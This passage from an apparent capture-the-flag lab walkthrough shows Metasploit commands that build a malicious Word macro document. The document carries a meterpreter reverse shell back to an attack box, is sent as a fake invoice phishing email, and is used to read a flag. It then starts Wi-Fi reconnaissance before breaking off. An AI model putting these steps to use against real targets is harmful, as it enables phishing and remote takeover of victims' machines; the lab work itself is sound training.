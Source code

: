2) On another terminal create the malicious document:
```shell
msfconsole
set payload windows/meterpreter/reverse_tcp
use exploit/multi/fileformat/office_word_macro
set LHOST <ATTACKBOX_IP>
set LPORT 8888
exploit
exit

mv /root/.msf4/local/msf.docm /root/invoice.docm
```

3) Send the phishing email:
* Go to http://MAILSERVER_IP
* Login as user `info@socnas.thm` and password `MerryPhishMas!`
* New email:
  * To: `marta@socmas.thm`
  * Subject: Invoice
  * Body: Please find attached invoice, best regards! (bla bla bla)
  * Attach /root/invoice.docm

4) After a few seconds a shell should appear in first terminal:
```shell
meterpreter> cat /Users/Administrator/Desktop/flag.txt 
```

## Day 11: Wi-Fi attacks - If you'd like to WPA, press the star key!

Connect to the machine with user `glitch` and password `Password321`:
```shell
export MACHINE_IP=x.x.x.x
ssh glitch@$MACHINE_IP
```

Show wireless devices:
```shell
iw dev

phy#2
	Interface wlan2
		ifindex 5
		wdev 0x200000001
		addr 02:00:00:00:02:00
		type managed
		txpower 20.00 dBm
```

Scan for nearby Wi-Fi networks:
```shell
sudo iw dev wlan2 scan

BSS 02:00:00:00:00:00(on wlan2)
	last seen: 192.392s [boottime]
	TSF: 1733935425101305 usec (20068d, 16:43:45)
	freq: 2437
	beacon interval: 100 TUs
	capability: ESS Privacy ShortSlotTime (0x0411)
	signal: -30.00 dBm
	last seen: 0 ms ago
	Information elements from Probe Response frame:
	SSID: MalwareM_AP
	Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 
	DS Parameter set: channel 6
	ERP: Barker_Preamble_Mode
	Extended supported rates: 24.0 36.0 48.0 54.0 
```